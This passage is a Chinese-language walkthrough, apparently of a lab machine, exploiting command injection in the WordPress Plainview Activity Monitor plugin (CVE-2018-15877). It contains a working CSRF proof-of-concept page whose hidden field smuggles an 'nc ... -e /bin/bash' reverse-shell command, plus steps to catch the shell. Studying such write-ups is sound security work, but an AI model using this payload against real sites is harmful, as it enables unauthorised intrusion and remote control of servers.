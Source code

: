 
![](https://pic4.zhimg.com/80/v2-78adeb7530df6475fa5b6d66a6e884b7_720w.webp)

  

## Activity monitor 插件命令注入获取shell

看到这个插件我去搜索了一下发现有一个`命令注入`:

  

![](https://pic2.zhimg.com/80/v2-34a52c7f53c586332ea8630bcacf6195_720w.webp)

  

```text
PoC:
-->

<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc 192.168.1.128 9999 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

  

![](https://pic1.zhimg.com/80/v2-87c55e26a4ffb841c038f3a9fe052e10_720w.webp)

  

设置好之后 KALI 用 `nc` 监听 `6666` 端口，访问 `poc.html` 得到一枚 `shell`：

  

![](https://pic3.zhimg.com/80/v2-8814c8ffbcffe3b09e2e04caa7744aae_720w.webp)

  

  

![](https://pic4.zhimg.com/80/v2-df5938d126d5388827a6662b9fce54e7_720w.webp)
